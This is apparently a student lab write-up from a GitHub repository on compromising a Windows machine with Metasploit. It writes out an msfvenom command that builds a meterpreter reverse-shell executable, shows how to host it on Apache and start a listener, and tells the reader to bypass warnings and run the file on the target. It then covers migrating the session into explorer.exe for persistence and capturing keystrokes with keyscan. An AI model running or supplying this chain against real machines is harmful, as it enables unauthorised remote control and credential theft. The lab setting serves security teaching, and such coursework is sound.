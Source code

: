 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/c828dc3b-0950-4b85-a0d9-eb07782e90ef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/79999a69-ac6e-404c-b2a5-e2175a49a698)
the fun.exe into the apache /var/www/html folder

![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/83f50d9d-f2f6-49ae-ba7d-8fb2594795c3)


Start apache server sudo systemctl apache2 start
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/b7fb41ee-baa5-4874-9523-2a3b95bcd198)


Check the status of apache2
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/647113b2-98db-4de7-859b-04da1361dd50)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/3f078903-42c9-46f2-99ed-2baab366bc27)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/6e4cd44a-79e7-47a3-ab0d-439b2f892c9d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/bbdc1d60-c3e0-42dc-bb13-fac3f56b9dc8)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/27926ddb-ba4b-4a9b-a5dd-a6820006351f)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/8845cb91-bb77-4c41-8e61-d66c74a93155)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/00a6fe1d-b702-407b-8ae7-c3acc15bfa6f)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
